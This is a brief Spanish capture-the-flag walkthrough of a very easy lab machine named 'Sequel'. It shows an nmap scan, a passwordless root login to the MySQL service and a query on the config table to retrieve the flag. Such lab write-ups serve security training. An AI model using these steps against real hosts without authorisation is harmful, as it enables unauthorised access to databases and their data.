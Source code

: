 Maquina: Sequel

Autor:

Dificultad: Muy Facil

![Screenshot 2024-11-10 160302](https://github.com/user-attachments/assets/f70ff2e2-b305-4f65-831b-553a85a1a7c4)

Iniciamos la máquina y verificamos la conexión

ping 10.129.67.127 -c 1

![Screenshot 2024-11-10 161533](https://github.com/user-attachments/assets/6a7d2d97-bd41-4c5a-b99b-d421040bd168)

realizamos un escaneo de puertos y servicios

sudo nmap -sV -sC -v 10.129.67.127

el puerto 3306 perteneciendo al servicio MySQL está abierto

![Screenshot 2024-11-10 161952](https://github.com/user-attachments/assets/ed9a8594-4182-4cd8-84c1-47a7f84a428a)

mysql -h 10.129.67.127 -u root

show databases;

![Screenshot 2024-11-10 162235](https://github.com/user-attachments/assets/ff3698b7-5300-4c63-acad-fd934dd4d615)

use htb;
show tables;

![Screenshot 2024-11-10 162516](https://github.com/user-attachments/assets/d13278bd-931b-4f94-945d-000b8ab62c9a)

select * from config;

![Screenshot 2024-11-10 162352](https://github.com/user-attachments/assets/a629f03c-df4c-4d58-8e00-5c5de5a3ed39)

y conseguimos el flag
